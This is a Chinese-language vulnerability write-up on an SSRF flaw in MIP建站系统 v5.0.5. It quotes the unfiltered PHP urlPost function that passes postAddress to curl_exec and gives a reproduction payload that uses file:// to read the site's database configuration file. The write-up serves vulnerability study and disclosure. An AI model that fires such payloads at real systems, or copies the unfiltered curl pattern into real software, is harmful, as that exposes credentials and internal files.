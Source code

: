 ```yaml
---
title: "MIP建站系统 v5.0.5 SSRF漏洞"
id: zhfly3021
---
```


# MIP建站系统 v5.0.5 SSRF漏洞

## 一、漏洞简介

## 二、漏洞影响

MIP建站系统 v5.0.5

## 三、复现过程

### 漏洞分析

进行简单的漏洞分析。
根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php
受影响代码：

```
public function urlPost(Request $request) {
        $postAddress = input('post.postAddress');
        if (!$postAddress) {
            return jsonError('请先去设置推送的接口');
        }
        $api = trim($postAddress);
        if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
            if (!config('siteInfo')['guanfanghaoStatus']) {
                return jsonError('检测到您未开启熊掌号，请开启后再推送');
            }
        }
        $url = input('post.url');
        $id = input('post.id');
        if (!$url) {
            return jsonError('没有检测到你推送的页面地址');
        }   
        $urls[] = $url;
        $ch = curl_init();
        $options =  array(
            CURLOPT_URL => $api,
            CURLOPT_POST => true,
            CURLOPT_RETURNTRANSFER => true,
            CURLOPT_POSTFIELDS => implode("\n", $urls),
            CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
        );
        curl_setopt_array($ch, $options);
        $result = curl_exec($ch); 
```

流程分析：

```
1、$ postAddress = input('post.postAddress');  
    //POST方法将$postAddress参数传入 `2、$api = trim($postAddress);

$options =  array(

CURLOPT_URL => $api,

CURLOPT_POST => true,

CURLOPT_RETURNTRANSFER => true,

CURLOPT_POSTFIELDS => implode("\n", $urls),

CURLOPT_HTTPHEADER => array(‘Content-Type: text/plain’),

);

curl_setopt_array($ch, $options);

//赋予$api参数，一直至$ch，未进行任何过滤

3、$result = curl_exec($ch);

//最后执行` 
```

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

```
http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
POST方法进行请求，payload：  
postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test 
```

![image](../img/812c40f8b507af04d42f6ad1cc85ef25.png)

## 参考链接

> https://xz.aliyun.com/t/7431